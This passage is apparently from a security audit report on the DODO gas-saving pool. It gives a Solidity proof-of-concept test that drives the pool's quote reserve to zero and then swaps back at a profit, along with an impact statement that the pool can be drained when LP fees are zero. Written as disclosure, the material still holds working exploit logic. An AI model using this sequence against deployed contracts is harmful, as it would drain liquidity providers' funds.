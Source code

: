 ```solidity
        // sell such a base token amount such that the quote reserve is 0
        // I calculated the "_amount" already which will make the quote token reserve "0"
        vm.startPrank(hippo);
        deal(DAI, hippo, _amount);
        dai.transfer(address(gsp), _amount);
        uint256 receivedQuoteAmount = gsp.sellBase(hippo);

        // print the reserves and the amount received by hippo when he sold the base tokens
        console.log("Received quote amount by hippo", receivedQuoteAmount);
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());

        // Quote reserve is 0!!! That means the pool has 0 assets, basically pool has only one asset now!
        // this behaviour is almost always not a desired behaviour because we never want our assets to be 0 
        // as a result of swapping or removing liquidity.
        assertEq(gsp._QUOTE_RESERVE_(), 0);

        // sell the quote tokens received back to the pool immediately
        usdc.transfer(address(gsp), receivedQuoteAmount);

        // cache whatever received base tokens from the selling back
        uint256 receivedBaseAmount = gsp.sellQuote(hippo);

        console.log("Received base amount by hippo", receivedBaseAmount);
        console.log("Base target", gsp._BASE_TARGET_());
        console.log("Quote target", gsp._QUOTE_TARGET_());
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());
        
        // whatever received in base tokens are bigger than our first flashloan! 
        // means that we have a profit!
        assertGe(receivedBaseAmount, _amount);
        console.log("Profit for attack", receivedBaseAmount - _amount);
    }
```

Test results and logs:
<img width="529" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/ac3f07f2-281f-485e-b8df-812045f8a88b">

## Impact
Pool can be drained, funds are lost. Hence, high. Though, this can only happen when there are no "LP_FEES". However, when we check the default settings of the deployment, we see [here](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/scripts/DeployGSP.s.sol#L22) that the LP_FEE is set to 0. So, it is ok to assume that the LP_FEES can be 0.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40-L113
## Tool used
